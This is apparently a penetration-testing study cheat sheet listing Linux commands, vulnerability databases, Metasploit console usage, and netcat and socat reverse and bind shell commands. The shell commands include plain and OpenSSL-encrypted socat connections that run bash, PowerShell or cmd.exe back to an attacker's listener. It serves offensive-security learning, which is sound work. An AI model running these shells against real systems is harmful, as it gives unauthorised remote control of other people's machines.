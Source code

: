 # General

## Commands
* [grep](https://tldr.ostera.io/grep)
* `chmod +x ./<filename>` : Make a file executable
* `wget <link location>`
* `uname` : Print certain system information
* `python3 -m http.server <port>`: Start up a simple local HTTP server
  * `-m`: run library module as a script

## Vulnerability Databases
* [National Vulnerability Database](https://nvd.nist.gov/vuln/full-listing)
* [Exploit-DB](https://www.exploit-db.com/)
* [Rapid7](https://www.rapid7.com/db/)

## Metasploit
* `msfconsole`: The command line interface
* `set <option> <value>`: Set the given option to value
* `history`: See commands typed earlier
* `search <options> <keywords>:<value>`
* `use <module>`
* `info`
* `back`: Leave the context
* `show options`
* `setg`: Set values that will be used for all modules
* `exploit` or `run`
* Ctrl+Z: Make the session into a background task
* Metasploit Database
  * First, start a database
  * `msfdb init`
  * `db_status`: Check the database status
  * `workspace`: List available workspaces
  * `workspace -a/-d <name>`: Add/Delete a workspace
  * `db_nmap`: The nmap results will be stored to the database
  * `hosts` or `services`: List host and service information of the target system
  * `hosts -R`: Once host information is stored in database, use this command to add the value to the RHOSTS parameter

## Reverse Shell and Bind Shell
* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* Reverse Shell
  * The attacking machine opens a listner and the target machine connects back to it
* Bind Shell
  * The target machine opens a listner and the attacking machine connects to it
* Netcat
  * `nc -lvnp <port>`: Netcat listening on a port
    * `-l`: Be a listener
    * `-v`: Verbose
    * `-n`: Don't resolve host names or use DNS
    * `-p`: Port specification
  * `nc <ip> <port>`
* Netcat Shell Stabilisation
  * Python
    * `python -c 'import pty;pty.spawn("/bin/bash")'`: Spawn a better featured bash shell
    * `export TERM=xterm`: Gives access to term commands such as `clear`
    * Ctrl+Z + `stty raw -echo; fg`: It turns off our own terminal echo (which allows pressing tab, arrow keys, and Ctrl+C), then foreground the shell 
  * `rlwrap nc -lvnp <port>`
* Socat
  * `socat TCP-L:<port> -`: Socat listening on a port
  * `socat TCP:<ip>:<port> EXEC:powershell.exe,pipes`: Connect back to socat listener on Windows
    * pipes forces powershell to use Unix style standard input and output
  * `socat TCP:<ip>:<port> EXEC:"bash -li"`: Connect back to socat listener on Linux
  * `socat TCP-L:<port> EXEC:powershell.exe,pipes`: Bind shell on Windows
  * `socat TCP-L:<port> EXEC:"bash -li"`: Bind shell on Linux
  * `socat TCP:<TARGET-IP>:<TARGET-PORT> -`: Connect to bind shell
  * ```socat TCP-L:<port> FILE:`tty`,raw,echo=0```: A fully stable tty Linux reverse shell
  * `socat TCP:<ip>:<port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`: Special command to connect to the stable reverse shell
  * Encrypted shells
    * `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`: Generate a certificate
    * `cat shell.key shell.crt > shell.pem`: Merge the 2 files into a simple .pem file
    * `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`: Reverse shell listener
    * `socat OPENSSL:<ip>:<port>,verify=0 EXEC:/bin/bash`: Connect back to reverse shell
    * `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`: Bind shell listener
    * `socat OPENSSL:<ip>:<port>,verify=0 -`: Connect to bind shell
